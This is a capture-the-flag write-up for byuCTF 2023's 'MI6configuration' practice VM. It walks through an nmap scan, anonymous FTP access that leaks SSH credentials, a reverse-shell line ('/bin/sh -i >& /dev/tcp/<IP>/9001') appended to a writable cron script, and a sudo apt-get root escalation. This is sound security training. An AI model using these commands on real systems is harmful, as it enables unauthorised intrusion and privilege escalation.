







# byuCTF 2023 - MI6configuration - all Flags (Pentesting)

__Description:__

>We recently acquired a computer at MI6 and it seems like they might have made some mistakes. Can you hack it using their misconfigurations and get all their important data? (Download the VM file and power it on. Find the IP address and start hacking!)

>The password to decrypt the volume is the first name of the James Bond character "Q" (all lowercase).

We were given an `.ova` file which I imported into Virtualbox and began

## Walkthrough

First I looked up the password online and decrypted the VM with the password `major`.

I scanned the box with nmap to see what ports are open and what services are running on the box.

`nmap -T4 -p- -sS -sC -A -sV <IP>`



We can see an open `FTP` and `SSH` server.
And we can see that the FTP server is running with an __anonymous account__.

I logged in as anonymous and got the first flag and also SSH credentials.



`flag1.txt` : `byuctf{anonymous_ftp}`

`not_my_passwords.txt` : `james_bond:imthebestAgent007`

I logged in with the SSH credentials I received and was user `james_bond`.



Now I wanted to know what other users are on the system and if I can see interesting things in their home directories.



In the home directory of the user `Shared` was an interesting bash script with an interesting information.

```bash
#!/bin/bash
#This command will run every two minutes and scan for running processes
#Doing so will protect us from being hacked
#Please do not change this file
ps -aux
```

Interesting, sounds like this file is executed via a cronjob regularly every two minutes.

Let's take a closer look at the file permissions and the owner:

`-rwxrw---- 1 q agents 216 May 20 10:41 update.sh`

The file belongs to user `q` and since I am also in the group `agents`, I can write to it.

I started a netcat listener `nc -nlvp 9001` and added this rev-shell code to the script: `/bin/sh -i >& /dev/tcp/<IP>/9001 0>&1`

Short wait and I got my reverse shell on my listener,was user `q`and got the next flag.



Now I wanted to know if the user has certain `sudo` rights.



We are authorized to run `apt-get` under any user via `sudo`.

A quick look at [GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/) told me that this is a PE vector under these circumstances and I learned how to get to user `root`.

`sudo -u root /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`

This brought me to user root and I got the last flag.


